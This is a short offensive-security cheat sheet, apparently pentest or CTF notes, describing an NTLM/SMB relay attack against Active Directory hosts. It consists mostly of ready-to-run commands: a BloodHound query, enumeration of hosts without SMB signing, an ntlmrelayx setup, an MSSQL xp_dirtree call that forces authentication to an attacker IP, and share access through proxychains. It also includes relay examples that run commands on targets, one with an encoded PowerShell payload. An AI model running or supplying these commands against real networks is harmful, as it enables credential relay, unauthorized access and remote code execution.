

# 🏃 SMB Relaying

Check in bloodhound:

```
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```

<figure><figcaption></figcaption></figure>

Check if SMB signing is disabled:

```
nxc smb 10.10.143.69-71 --gen-relay-list targets.txt
```

If message signing is disabled

Now start an smb relay:

```
ntlmrelayx.py -tf targets.txt -socks -smb2support
```

Add target in targets.txt (DC mostly)

Now in mssql

```
exec xp_dirtree "\\10.8.1.208\share"
```

Now add this in proxychains config:

```
socks5  127.0.0.1 1080
```

Now we can list shares authenticating as the user:

```
proxychains smbclient \\\\10.10.172.69\\prod -U REFLECTION/SVC_WEB_STAGING
```

## Example

we can also specify a single target

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
```

EXAMPLE 2:

```
sudo impacket-ntlmrelayx -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
```

## References

1. https://raxis.com/blog/ad-series-how-to-perform-broadcast-attacks/
2. https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
